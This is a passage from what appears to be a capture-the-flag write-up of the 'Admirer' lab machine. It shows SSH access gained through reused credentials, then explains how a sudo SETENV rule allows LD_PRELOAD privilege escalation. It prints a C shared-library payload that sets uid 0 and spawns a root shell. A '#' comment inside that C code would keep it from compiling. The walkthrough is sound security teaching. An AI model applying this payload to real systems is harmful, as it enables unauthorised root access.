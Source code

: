 In the file contents, we find the working database credentials.

## Abusing Sudo Rights To Set Environment Variables

With the credentials in `index.php`, due to password reuse, we can SSH into the machine as `waldo`.

As part of basic enumeration, we find out that `waldo` can:

* Run `admin_tasks.sh` as root
* Control the environment the script runs in.

```
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

`env_reset` causes commands to be executed with a minimal environment. However, with the `SETENV` tag, we can override it, and effectively add any environement variable we want.

Given this ability, we can abuse the LD_PRELOAD environment variable for privilege escalation.

### What Is LD_PRELOAD?

LD_PRELOAD is an environment variable that holds the path to a shared link library that will be **preloaded**.

Preloading refers to loading the library before the [C language runtime](https://en.wikipedia.org/wiki/Runtime_library). This provides a way to hijack functions as preloaded libraries take precedence.

When we run an executable, the shell will load the library pointed to in LD_PRELOAD if it is present.

However, to avoid trivial exploitation, LD_PRELOAD works only if the RUID is the same as EUID. Fortunately, in our case, as we can execute `admin_tasks.sh` as root using `sudo`, the process running `admin_task.sh` will have RUID and EUID both set to 0.

RUID must be EUID.

Steps:

1. Create shared library payload
2. Execute `admin_tasks.sh` as root with LD_PRELOAD set to our shared library payload

#### Creating Shared Library Payload

Save the following as `shell.c`:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD"); # we do not want the processes to inherit the LD_PRELOAD variable
setgid(0);
setuid(0);
system("/bin/sh");
}
```
